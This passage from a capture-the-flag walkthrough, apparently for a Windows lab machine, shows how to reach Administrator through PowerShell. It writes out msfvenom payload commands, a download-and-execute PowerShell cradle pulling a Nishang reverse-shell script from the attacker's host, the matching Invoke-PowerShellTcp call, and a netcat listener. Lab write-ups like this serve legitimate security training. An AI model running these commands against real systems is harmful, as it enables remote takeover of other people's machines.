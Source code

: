 Alright, all we did is view the root flag, we didn’t really escalate privileges. Unfortunately our shell can’t handle running PowerShell, so in the next section, we’ll start from the beginning and send a PowerShell reverse shell back to our target machine and from there we’ll escalate our privileges to _Administrator_.

## Extra Content: The PowerShell Solution <a id="e858"></a>

View the options for PowerShell reverse shells in msfvenom.

![](https://miro.medium.com/max/1385/1*HLwepNg6SyWiuGIPICQGVA.png)

We’ll go with the _powershell\_reverse\_tcp_ option.

```text
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```

Unfortunately, this gives us a payload that is larger than the maximum size specified in the exploit.

![](https://miro.medium.com/max/1421/1*R2cIHjSY_Wf1ANRH_2L_UQ.png)

So instead, we’ll just use the _windows/exec_ module to download and execute the [Nishang](https://github.com/samratashok/nishang) reverse shell.

Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, use msfvenom to generate a payload that downloads the PowerShell script and executes it.

```text
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
